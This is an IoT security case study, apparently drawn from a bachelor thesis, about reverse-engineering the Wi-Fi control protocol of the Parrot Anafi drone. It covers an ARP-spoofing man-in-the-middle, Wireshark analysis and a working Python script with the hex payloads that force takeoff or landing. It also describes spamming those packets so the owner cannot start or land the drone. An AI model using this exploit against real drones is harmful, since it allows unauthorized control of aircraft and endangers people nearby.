 # Parrot Anafi Drone Reverse Engineering

In this example, we demonstrate how we reverse-engineered the communication between the Parrot Anafi consumer drone and its controller, which connect via Wi-Fi. The Parrot Anafi hosts its own Wi-Fi network, allowing either the controller or a phone running the Freeflight app to connect. Our goal was to understand the signals sent to the Anafi for initiating takeoff and landing sequences.

## Test Setup

Start by connecting your PC to the Parrot Anafi’s Wi-Fi network. Next, set up an ARP spoofing attack to place your PC in a man-in-the-middle position between the drone and its controller. This can be accomplished using tools like Ettercap, allowing your device to capture the data exchanged between the two.

The resulting test setup may look like this:

<figure><img src="../../../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Parrot Anafi test setup</p></figcaption></figure>

## Paket Analysis

Using Wireshark we can look at the packets, which are send during a landing and a starting sequence (picture shows just a snippet):

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Example packet</p></figcaption></figure>

We can see that the communication between the drone and the controller is done over UDP. Everey UDP packet had some kind of hex string as payload, which was non-ASCII

Next, we looked at the distribution of the packets send, of all packets send during one start and landing of the drone:

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Distribution of UDP packet type during one start and landing</p></figcaption></figure>

To distinguish which paket is responsible for the start and landing we captured 17 start and landings and saw that the amount of third type (length=53 bytes) of messages went from 2 to 34. Could this be the packet which controls the start/landing? since 17\*2=34

We can filter in Wireshark with `frame.len==53` to filter just for the start/landing packets:

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Wireshark filter which only shows start and landing pakets</p></figcaption></figure>

The payload of the packets had a pretty clear structure: (here an example of a few)

```
04 0b 0b 00 00 00 00 01 00 01 00
04 0b 0c 0b 00 00 00 01 00 03 00
04 0b 0d 0b 00 00 00 01 00 01 00
04 0b 0e 0b 00 00 00 01 00 03 00
04 0b 0f 0b 00 00 00 01 00 01 00
04 0b 10 0b 00 00 00 01 00 03 00
04 0b 11 0b 00 00 00 01 00 01 00
04 0b 12 0b 00 00 00 01 00 03 00
```

After analyzing the protocol more, we could reverse the format of this type packet:

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Structure of start and landing packets</p></figcaption></figure>

## Attack

Let's see if we can send our own pakets from our PC to the drone, in order to start and land it, without using the controller. For that we setup a Python script (see below) to send a UDP paket with the payload `040bff0b000000300001000100` to the drone to start it. Note that we set the counter to `FF`, as packets are dropped by the drone if the counter value is less than the current counter. Using `FF` ensures it is always accepted.

```python
import socket

# Define target IP and ports
target_ip = "192.168.42.1"
destination_port = 2233

# Define the payload
payload = bytes.fromhex("040bff0b000000300001000100") #for starts
#payload = bytes.fromhex("040bff0b000000300001000300") #for landings

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Send the payload to the target IP and port
sock.sendto(payload, (target_ip, destination_port))

# Close the socket
sock.close()

print(f"Payload sent to {target_ip}:{destination_port}")
```

And we did it! The drone performed its auto-start maneuver and was hovering above! In order to land the drone again we can send `040bff0b000000300001000300`to the drone. Note that the trigger byte (2nd last byte) was set to `03`.

Notice, one does not need to change the MAC address to get these results. The Anafi processed the packages even though the laptop was not the primary controller at this time.

If we spam either the takeoff or landing command, the following attacks can be exploited:

1. **Possible ATTACKS**
   1. Prevent starts
      1. The next experiment was to spam the landing command constantly, with the result that the drone was unable to start using the controller. The drone’s rotors were spinning for a second but then the landing command was received and the Anafi stopped the starting process.
   2. Prevent landing
      1. The same result could be achieved with spamming the starting package. If one presses the landing button on the controller or phone the drone started to go down, but as soon as the starting package from the laptop came in the drone stopped the landing and stared to hovering above the ground again. As a result, the phone user was unable to land the drone properly.

## Summary

This case study shows why it is relevant to reverse network protocols when analyzing IoT devices. As an attacker, which has access to the Parror Anafis WiFi network we can send unauthenticated pakets to the drone and control its starts and landings. This can be done by any device, which can connect to WiFi networks.

## Resources

Bachelor Thesis, Jonas Rosenberger

[https://www.parrot.com/en/drones/anafi](https://www.parrot.com/en/drones/anafi)
